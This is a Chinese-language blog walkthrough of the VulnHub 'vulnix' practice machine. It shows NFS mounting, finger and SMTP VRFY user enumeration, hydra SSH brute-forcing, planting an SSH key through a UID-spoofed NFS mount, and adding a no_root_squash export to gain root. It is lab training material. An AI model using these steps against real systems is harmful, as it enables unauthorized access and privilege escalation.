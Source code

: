 ```yaml
---
layout: post
title:  "vulnix"
description: walkthrough
category: vulnhub
---
```

# vulnix



![image-20200612031806183]({{ site.url }}/assets/vulnix.assets/image-20200612031806183.png)

看到nfs了先测试一下

![image-20200612095103606]({{ site.url }}/assets/vulnix.assets/image-20200612095103606.png)

```bash
sudo mount -t nfs 192.168.1.115:/home/vulnix nfs
```

![image-20200612095156524]({{ site.url }}/assets/vulnix.assets/image-20200612095156524.png)

![image-20200612095242901]({{ site.url }}/assets/vulnix.assets/image-20200612095242901.png)

权限不足，需要为装成一个本地账户的UID才能读取



无权限，继续扫描

![image-20200612032402134]({{ site.url }}/assets/vulnix.assets/image-20200612032402134.png)

finger：详细介绍可以参见我的`HTB_Sunday`的walkthrough

使用以下脚本

http://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```bash
./finger-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 192.168.43.122
```

大小字典都打了一下，没什么合适的线索。只确认了两个用户root和user

![image-20200612090201068]({{ site.url }}/assets/vulnix.assets/image-20200612090201068.png)

![image-20200612085323977]({{ site.url }}/assets/vulnix.assets/image-20200612085323977.png)

```bash
ehlo 192.168.1.115
```

Postfix邮件打招呼，发现支持VRFY命令。可以枚举用户名

```bash
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.1.115
```

![image-20200612085946908]({{ site.url }}/assets/vulnix.assets/image-20200612085946908.png)

再次认证了两个用户，root和user

hydra暴力测试ssh

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.115
```

![image-20200612093149557]({{ site.url }}/assets/vulnix.assets/image-20200612093149557.png)

```bash
user:letmein
```

![image-20200612095616871]({{ site.url }}/assets/vulnix.assets/image-20200612095616871.png)

常规枚举发现sudo拥有S位。但是。user并在sudoer内

![image-20200612095706526]({{ site.url }}/assets/vulnix.assets/image-20200612095706526.png)

利用usr账户查看可能利于的帐户

![image-20200612095810671]({{ site.url }}/assets/vulnix.assets/image-20200612095810671.png)

推测nfs的权限也应该是这个帐户

参考`/etc/passwd`确认UID

![image-20200612095902404]({{ site.url }}/assets/vulnix.assets/image-20200612095902404.png)

kali本地增加新用户

```bash
sudo useradd -u 2008 vulnix
```

重新进入挂载的nfs，但是并没有有用信息，

因为目录是远程的/home/vulnix，所以，可以利用ssh的特性在目录下生成ssh，从而让我们可以以vulnix的身份通过ssh进入目标。

```bash
mkdir .ssh
cd .ssh
ssh-keygen
```

![image-20200612111510521]({{ site.url }}/assets/vulnix.assets/image-20200612111510521.png)	



```bash
mv id_rsa.pub authorized_keys
cat id_rsa
```

cat显示。将内容复制下来，在kali本机生成同样文件，记得给600

![image-20200612112030620]({{ site.url }}/assets/vulnix.assets/image-20200612112030620.png)

使用私钥文件登录服务器

```bash
ssh -i id_rsa vulnix@192.168.1.115
```

![image-20200612112326383]({{ site.url }}/assets/vulnix.assets/image-20200612112326383.png)

![image-20200612112822781]({{ site.url }}/assets/vulnix.assets/image-20200612112822781.png)

执行这条命令可以编辑exports文件，这个文件是设置nfs挂载的，再最下面添加一行，吧/root也加入挂载

```bash
/root           *(no_root_squash,insecure,rw)
```

![image-20200612114900842]({{ site.url }}/assets/vulnix.assets/image-20200612114900842.png)

之后需要重启目标。。

之后只是重复之前的步骤，挂载root，目录，为root生成密钥，ssh登录。